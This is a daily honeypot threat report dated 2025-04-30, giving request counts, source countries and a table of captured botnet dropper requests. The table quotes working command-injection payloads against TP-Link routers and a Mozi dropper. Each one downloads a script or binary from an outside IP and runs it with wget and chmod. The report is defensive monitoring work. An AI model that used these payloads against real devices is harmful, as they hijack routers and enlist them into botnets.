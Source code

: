 ```yaml
---
title: "Report: 2025-04-30 "
date: 2025-04-30
desciption: "Report: 2025-04-30" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-30 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 81 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1752 requests were recorded during the day, originating from 3 different countries, with a peak of 388 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| US               | Singapore          |
| CN               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                   |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.95.147.209   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |
| 124.131.139.150 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                     |
| 141.98.11.128   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1  |
